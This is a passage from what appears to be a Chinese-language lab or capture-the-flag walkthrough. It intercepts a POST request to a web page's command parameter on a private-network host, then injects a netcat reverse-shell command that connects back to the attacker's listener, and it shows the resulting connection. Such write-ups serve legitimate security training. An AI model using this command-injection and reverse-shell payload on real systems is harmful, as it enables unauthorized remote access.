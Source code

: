     ![image.png](image%2029.png)
    
6. 当我们不知道命令是怎么控制的，抓包看看
    
    ```python
    POST /command.php HTTP/1.1
    Host: 192.168.75.173
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate, br
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 22
    Origin: http://192.168.75.173
    Sec-GPC: 1
    Connection: keep-alive
    Referer: http://192.168.75.173/command.php
    Cookie: PHPSESSID=18ugmlkd6apve37kqclfdj4100
    Upgrade-Insecure-Requests: 1
    Priority: u=0, i
    
    radio=ls+-l&submit=Run
    ```
    
    原来是在数据包参数`radio`规定执行的命令，我们直接输入反弹`shell`命令，kali同时开启监听
    
    ```python
    radio=nc 192.168.75.151 1234 -e /bin/bash&submit=Run
    ```
    
    获得shell
    
    ```python
    listening on [any] 1234 ...
    192.168.75.173: inverse host lookup failed: Unknown host
    connect to [192.168.75.151] from (UNKNOWN) [192.168.75.173] 45602
    ```
    